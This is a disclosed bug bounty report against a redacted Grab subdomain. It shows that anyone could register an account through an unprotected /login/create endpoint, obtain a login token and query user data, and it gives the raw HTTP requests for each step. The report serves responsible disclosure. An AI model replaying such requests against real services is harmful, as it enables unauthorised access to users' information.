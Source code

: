 # Registration enabled on ███grab.com

## Report Details
- **Report ID**: 318099
- **URL**: https://hackerone.com/reports/318099
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-21T06:45:22.310Z
- **Disclosed**: 2018-02-28T05:16:59.947Z

## Reporter
- **Username**: grouptherapy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: grab

## Vulnerability Information
**Summary:**
An attacker can register an account on the `█████████grab.com` service, and access information from the service


**Description:** 
While logging in via Google accounts is prohibited, an attacker can register an account through the `/login/create` endpoint, as per the below request
```
POST /login/create HTTP/1.1
Host: █████grab.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://███grab.com/
Authorization: Bearer null
Content-Type: application/json
Content-Length: 61
Cookie: G_ENABLED_IDPS=google; G_AUTHUSER_H=0
Connection: close

{"userid":"█████","password":"██████"}
```


This can then be used to log in via the `/login` endpoint ,as in the following request:
```
POST /login HTTP/1.1
Host: █████grab.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://█████grab.com/
Authorization: Bearer null
Content-Type: application/json
Content-Length: 61
Cookie: G_ENABLED_IDPS=google; G_AUTHUSER_H=0
Connection: close

{"userid":"██████","password":"████"}
```
which returns a valid token. F265433

This token can be used to access some of the endpoints, such as
`/api/find/users`, as in the following request: F265434

## Impact

An attacker can access information in the system such as registered users. The application appears to be newly developed, and as such little information is stored currently.

## Attachments
No attachments
